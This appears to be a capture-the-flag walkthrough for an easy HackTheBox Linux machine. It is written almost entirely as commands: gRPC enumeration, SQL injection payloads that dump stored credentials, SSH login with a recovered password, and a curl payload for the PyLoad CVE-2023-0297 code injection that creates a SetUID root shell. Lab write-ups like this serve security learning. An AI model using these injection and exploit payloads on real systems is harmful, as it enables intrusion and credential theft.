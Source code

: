 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)
## 🧭 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.214
nmap -p 22,50051 -sCV 10.10.11.214
```

### Check Unknown Port (TCP 50051)
```bash
nc 10.10.11.214 50051
```

---

## 📡 gRPC Enumeration

### Install grpcurl (if needed)
```bash
go install github.com/fullstorydev/grpcurl/cmd/grpcurl@latest
```

### Basic Enumeration
```bash
grpcurl -plaintext 10.10.11.214:50051 list
grpcurl -plaintext 10.10.11.214:50051 list SimpleApp
grpcurl -plaintext 10.10.11.214:50051 describe SimpleApp
grpcurl -plaintext 10.10.11.214:50051 describe .LoginUserRequest
grpcurl -plaintext 10.10.11.214:50051 describe .getInfoRequest
```

---

## 👤 User Enumeration & Exploitation

### Register & Login
```bash
grpcurl -d 'username: "0xdf", password: "0xdf0xdf"' -plaintext -format text 10.10.11.214:50051 SimpleApp.RegisterUser
grpcurl -v -d 'username: "0xdf", password: "0xdf0xdf"' -plaintext -format text 10.10.11.214:50051 SimpleApp.LoginUser
```

### Store and Use Token
```bash
export TOKEN=<token_from_login>
grpcurl -d 'id: "54"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
```

---

## 🩻 SQLi via gRPC

### Check SQLi with `union select`
```bash
grpcurl -d 'id: "320 union select 1"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
```

### Identify DBMS
```bash
grpcurl -d 'id: "320 union select sqlite_version()"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
```

### Get Tables
```bash
grpcurl -d 'id: "320 union select group_concat(tbl_name) from sqlite_master where type=\"table\" and tbl_name NOT LIKE \"sqlite_%\""' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
```

### Get Table Structure
```bash
grpcurl -d 'id: "320 union select group_concat(sql) from sqlite_master where type!=\"meta\" and sql NOT NULL"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
```

### Extract Data from `accounts` Table
```bash
grpcurl -d 'id: "320 union select group_concat(username || \":\" || password ) from accounts"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
```

---

## 🐚 Shell as sau

### [SSH](SSH) Login
```bash
sshpass -p 'HereIsYourPassWord1431' ssh sau@10.10.11.214
```

---

## 🚀 Privilege Escalation via PyLoad (CVE-2023-0297)

### Confirm Local Web Access
```bash
curl localhost:9666
curl localhost:8000
```

### SSH Port Forwarding
```bash
sshpass -p 'HereIsYourPassWord1431' ssh sau@10.10.11.214 -L 9666:localhost:9666 -L 8000:localhost:8000
```

### Exploit POC (CVE-2023-0297)
```bash
curl -d 'jk=pyimport os;os.system("touch /tmp/0xdf");f=function f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' http://127.0.0.1:9666/flash/addcrypted2
```

### Root Shell via SetUID Bash
```bash
curl -d 'jk=pyimport os;os.system("cp /bin/bash /tmp/0xdf; chmod 6777 /tmp/0xdf");f=function f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' http://127.0.0.1:9666/flash/addcrypted2
/tmp/0xdf -p
```

---

## 🔬 Beyond Root – App Inspection

### App Location
```bash
cd /opt/app
ls
```

### Files
- `app.proto`: GRPC proto definitions
- `app.py`: GRPC service implementation
- `sqlite.db`: backend database